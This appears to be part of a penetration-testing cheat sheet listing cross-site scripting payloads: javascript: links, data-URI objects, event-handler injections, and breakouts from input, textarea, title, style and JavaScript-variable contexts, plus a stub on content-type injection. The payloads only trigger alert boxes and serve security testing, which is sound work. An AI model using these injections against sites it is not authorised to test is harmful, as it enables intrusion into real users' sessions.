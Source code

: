 #### 🔔 XSS via Malicious Links
```html
<a href="javascript:alert('xss-link')">test123</a>
<iframe src="javascript:alert('XSS')">test123</iframe>
<h1><u onmouseover="alert('XSS')">test123</u></h1>
<object data="data:text/html,<script>alert('xss')</script>"></object>
<object data="data:text/html,<h1>test123</h1>"></object>
<script src="data:text/javascript,alert(1337)"></script>
```

---

## 🔍 Escaping Contexts

Escape different HTML contexts to test how injected payloads are rendered.

**Input Context**
```html
"><u>test123 
test123"> 
"><u>test123<script>alert('xss')</script>
```

**`textarea` Context**
```html
test123</textarea><img src=x onerror=alert('xss')>
```

**`title` Context**
```html
test123</title><img src=1 onerror=alert('xss')>
```

**`style` Context**
```html
test123</style><img src=x onmouseover=alert(document.domain)>
```

**JavaScript Variable Context**
```js
test123';alert('xss');//
```

---

## 📦 Content-Type Based Injection

When XSS payloads are interpreted based on response content type.

**HTTP Request**
```http
GET /content-type/check.php?username=test123 HTTP/1.1
```

**HTTP Response**
```http
Content-Type: text/html; charset=UTF-8
```
